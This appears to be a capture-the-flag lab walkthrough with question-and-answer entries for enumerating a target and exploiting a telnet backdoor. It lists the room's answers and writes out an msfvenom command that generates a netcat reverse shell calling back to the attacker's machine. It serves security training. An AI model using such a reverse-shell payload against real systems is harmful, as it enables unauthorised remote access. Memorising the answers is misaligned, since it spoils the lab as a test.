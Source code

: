 ### Who could it belong to? Gathering possible usernames is an important step in enumeration.
Answer : Skidy

### Always keep a note of information you find during your enumeration stage, so you can refer back to it when you move on to try exploits.
No Answer. 

## TASK 7 Exploiting Telnet
### Okay, let's try and connect to this telnet port! If you get stuck, have a look at the syntax for connecting outlined above.
No Answer.

### Great! It's an open telnet connection! What welcome message do we receive?
Answer : SKIDY'S BACKDOOR.

### Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N)
Answer : N

### Hmm... that's strange. Let's check to see if what we're typing is being executed as a system command. 
No Answer.

### This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.
No Answer

### Now, use the command "ping [local THM ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)
Answer : Y

### Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!
No Answer.

### We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax: "msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"
Answer : mkfifo
